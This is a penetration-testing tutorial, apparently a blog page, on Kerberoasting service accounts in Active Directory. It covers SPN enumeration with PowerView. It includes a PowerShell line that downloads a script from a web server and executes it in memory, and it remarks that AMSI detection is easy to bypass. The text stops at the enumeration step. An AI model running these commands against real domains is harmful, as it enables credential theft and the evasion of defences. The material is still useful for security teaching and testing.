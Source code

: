 

#  [](#header-1)Kerberoast



### [](#header-3)Introduction



Kerberoasting is an extremely common attack in active directory environments which targets Active Directory accounts with the SPN value set. Common accounts with the SPN **(Service Principal Name)** set are service accounts such as IIS User/MSSQL etc. 



Kerberoasting involves requesting a Kerb Service Ticket (TGS) from a Windows Domain Machine or Kali Box using something like **GetUserSPN's.py**. The problem with **TGS** is once the the **DC** looks up the target **SPN** it encrypts the **TGS** with the **NTLM Password Hash** of the targeted user account.



### [](#header-3)From Windows



There are numerous ways to enumerate service accounts and find Kerberoast targets so I will cover a few below, both from Windows Machines & Linux Machines.



#### [](#header-4)Powerview

The First will be PowerView.ps1 - If you have not heard of PowerView.ps1 by now and you are researching Kerberos attacks then you need to go back a little... 

PowerView is an insanely powerful **.ps1** created by Harmj0y which makes Enumerating & Exploiting AD Environments with PowerShell extremely easy. Even though Powershell is extremely monitored in this day and age by defenders it is still highly useful.

`https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1`



**Enumeration**

First let's import `PowerView.ps1` into Memory with 

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')
```



Of course `AMSI` will probably catch this on `WIN10 1803` but I will leave evasion upto yourselfs. There are numerous bypasses in my `h4cks` Repo and numerous out there online. `AMSI` is just string detection so it's easy to slip past.

Now with PowerView in memory on a **Domain-Joined Machine** we can simply run

```powershell
Get-DomainUser -SPN
```
